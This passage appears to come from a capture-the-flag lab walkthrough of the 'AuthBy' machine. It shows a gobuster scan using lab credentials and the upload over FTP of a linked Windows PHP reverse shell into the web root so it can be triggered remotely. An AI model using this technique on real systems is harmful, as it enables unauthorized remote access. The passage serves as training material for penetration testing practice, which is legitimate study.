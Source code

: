 I then performed a gobuster sub-directory scan passing the credentials offsec:elite
~~~shell
┌──(kali㉿kali)-[~/Desktop/AuthBy]
└─$ gobuster dir -U offsec -P elite -u http://192.168.182.46:242/ -w /usr/share/dirb/wordlists/common.txt -x .txt, .php -t 30 
~~~
This did not reveal any avaiable webpages, however it did verify that both .htpasswd and .htaccess from the FTP server are stored within the web directory, this means if we store a reverse shell on the FTP server, we should be able to call it by navigating to it on the website

![AuthBy](/assets/img/AuthByPG(4).png)

I then uploaded [this](https://github.com/Dhayalanb/windows-php-reverse-shell) windows php reverse shell on the FTP server changing the IP, Port and tmpdir

![AuthBy](/assets/img/AuthByPG(5).png)

![AuthBy](/assets/img/AuthByPG(6).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/AuthBy]
└─$ ftp admin@192.168.182.46     
Connected to 192.168.182.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put revshell.php
local: revshell.php remote: revshell.php
229 Entering Extended Passive Mode (|||2100|)
150 File status okay; about to open data connection.
100% |********************************************************************************************************************************|  6542       73.39 MiB/s    00:00 ETA
226 Closing data connection.
6542 bytes sent in 00:00 (115.52 KiB/s)
~~~

